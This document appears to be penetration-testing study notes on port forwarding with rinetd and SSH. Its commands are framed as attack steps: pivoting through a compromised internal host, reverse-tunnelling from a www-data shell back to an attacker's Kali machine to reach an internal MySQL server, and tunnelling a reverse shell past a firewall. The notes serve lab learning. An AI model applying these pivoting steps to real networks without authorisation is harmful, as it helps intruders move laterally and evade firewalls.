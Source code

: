 # Port forwarding, redirection and tunnelling  

## rinetd  

Install.  

`sudo apt update && sudo apt install rinetd`  

The configuration file needs 4 parameters. Bindaddress and bind port define the listener and connectaddress and connectport define the destination.  

`/etc/rinetd.conf`  

After a rule is defined, restart the service and check port is listening.  

```
sudo service rinetd restart
ss -antp | grep "80"
```  

## SSH  

### Local port forwarding.  

`ssh -N -L [bind_address:]port:host:hostport [username@address]`  

To set up a local bind address on our machine(0.0.0.0:445) to connect to an unreachable machine (192.168.1.110:445) through a compromised machine on the internal 
network (10.11.0.28) as someUser.

`sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 someUser@10.11.0.128`  

As windows does not support smb v1, the following needs to be changed to access smb.  

`sudo nano /etc/samba/smb.conf`  

Add this line to the above.  

`min protocol = SMB2`  

Restart.  

`sudo /etc/init.d/smbd restart`  

To connect to an internal web server through local on port 80 to 172.18.0.2:80 while traversing the ssh of student 192.168.171.52.  

`sudo ssh -N -L 0.0.0.0:80:172.18.0.2:80 student@192.168.171.52 -p 2222`  

Note the order of flags -N and -L matters and should be as above or a error will be given.  

### Remote port forwarding.  

Remote is the opposite of local, a port is opened on the remote machine and directed to a port on our machine.  

Command outline.  

`ssh -N -R [bind_address:]port:host:hostport [username@address]`  

If we have a shell on a client, we can access the internal sql server by remote forwarding. We connect back to kali as user kali,opening up a listener
on port 2221.  

`www-data@client# ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4`  

This means we can send traffic to 2221 to reach the server on 3306 through ssh tunnel 22. This can be done if a firewall is only letting traffic from 
ssh through.  

We can establish the port is listening on our kali machine and then use nmap to fingerprint the service.  

```
ss -antp | grep "2221"
sudo nmap -sS -sV 127.0.0.1 -p 2221
```  

If we have a rev shell on the target that can only access local 5555, we can set up a remote tunnel FROM ATTACKING MACHINE.  

`ssh -N -R 127.0.0.1:5555:192.168.119.171:4444 student@192.168.171.52 -p 2222`  

